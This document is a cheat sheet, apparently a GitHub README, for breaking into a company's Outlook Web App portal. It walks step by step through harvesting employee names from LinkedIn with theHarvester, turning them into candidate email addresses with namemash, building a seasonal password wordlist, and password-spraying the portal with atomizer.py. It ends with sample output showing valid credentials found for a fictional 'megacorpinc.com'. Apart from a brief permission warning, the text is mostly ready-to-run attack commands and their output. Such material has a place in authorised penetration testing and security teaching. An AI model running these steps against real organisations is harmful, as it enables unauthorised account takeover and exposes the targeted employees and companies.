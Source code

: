 # JustBreakIn
JustBreakIn, a cheat sheet which will aid you through external network engagements.

## Performing OSINT to break into an external portal such as OWA.
First and formost, please only do this if you have permission. Doing this against random companies on the internet is illegal! You have been warned.

First we perform an OSINT on "TBA" using `theHarvester`. 

```
theHarvester -d https://www.megacorpinc.com/ -l 100 -b linkedin

*******************************************************************
*  _   _                                            _             *
* | |_| |__   ___    /\  /\__ _ _ ____   _____  ___| |_ ___ _ __  *
* | __|  _ \ / _ \  / /_/ / _` | '__\ \ / / _ \/ __| __/ _ \ '__| *
* | |_| | | |  __/ / __  / (_| | |   \ V /  __/\__ \ ||  __/ |    *
*  \__|_| |_|\___| \/ /_/ \__,_|_|    \_/ \___||___/\__\___|_|    *
*                                                                 *
* theHarvester 3.2.3                                              *
* Coded by Christian Martorella                                   *
* Edge-Security Research                                          *
* cmartorella@edge-security.com                                   *
*                                                                 *
******************************************************************* 


[*] Target: https://www.megacorpinc.com/ 
 
        Searching 100 results.
[*] Searching Linkedin. 

[*] Users found: 11
---------------------
Bill Taylor - Product Support Sales Reprentative 
Chris Barry - Chief Engineer 
David Austin 
Hugo Lahnstein 
James Vallejos - Safety Manager 
John Liu - Ceo 
Lazaro Abrenica 
Lovely Bonnet - Virtual Assistant 
Qingshuo Wang 
Volkan Ediz - Chief Revenue Officer 
bob bob bill bobo - big shot 

[*] No IPs found.

[*] No emails found.

[*] No hosts found.
```

Next we add the user output to a file:
```
vi employees.txt                                                            
Bill Taylor - Product Support Sales Reprentative 
Chris Barry - Chief Engineer 
David Austin 
Hugo Lahnstein 
James Vallejos - Safety Manager 
John Liu - Ceo 
Lazaro Abrenica 
Lovely Bonnet - Virtual Assistant 
Qingshuo Wang 
Volkan Ediz - Chief Revenue Officer
```

We then perform some `cut` to get the names in a clean output:
```
cat employees.txt| cut -d ' ' -f 1,2 > employees_new.txt
```

This gives us a cleaner output:
```
cat employees_new.txt                                   
Bill Taylor
Chris Barry
David Austin
Hugo Lahnstein
James Vallejos
John Liu
Lazaro Abrenica
Lovely Bonnet
Qingshuo Wang
Volkan Ediz
```

Next we clone namemash and give it execute permissions:

```
sudo git clone https://gist.github.com/superkojiman/11076951 /opt/namemash; sudo chmod +x /opt/namemash/namemash.py
```

Finally we use namemash and sed to get full email addresses outputted to `possible-emails.txt`:

```
/opt/namemash/namemash.py employees_new.txt | sed 's/$/@megacorpinc.com/g' > possible-emails.txt
```

This creates us 110 possible emails used to spray for the usernames:
```
wc -l possible-emails.txt 
110 possible-emails.txt
```

Below is a sample output for "Bill Taylor":
```
cat possible-emails.txt | head -n10                                                                                                                                                                  
billtaylor@megacorpinc.com
taylorbill@megacorpinc.com
bill.taylor@megacorpinc.com
taylor.bill@megacorpinc.com
taylorb@megacorpinc.com
btaylor@megacorpinc.com
tbill@megacorpinc.com
b.taylor@megacorpinc.com
t.bill@megacorpinc.com
bill@megacorpinc.com
```

Next we can use a wordlist such as the below to spray for the password to the above usernames: 
```
cat english-dates2.txt 
Spring2021
Spring2020
Summer2021
Summer2020
Autumn2021
Autumn2020
Fall2021
Fall2020
Winter2021
Winter2020
January2021
January2020
February2021
February2020
March2021
March2020
April2021
April2020
May2021
May2020
June2021
June2020
July2021
July2020
August2021
August2020
September2021
September2020
October2021
October2020
November2021
November2020
December2021
December2020
```

Finally we can use `https://github.com/byt3bl33d3r/SprayingToolkit/blob/master/atomizer.py` to bruteforce for potential accounts.

```
/opt/SprayingToolkit/atomizer.py owa mail.megacorpinc.com english-dates2.txt  possible-emails.txt -i 0:00:00
```

If you see something like the below, you ae in luck!
```[-] Authentication failed: bill@megacorpinc.com:December2020 (Invalid credentials)

< snipped >

[+] Found credentials: b.taylor@megacorpinc.com:August2021

[+] Dumped 1 valid account to owa_valid_accounts.txt
```

Goodluck and please do this responsibility.  
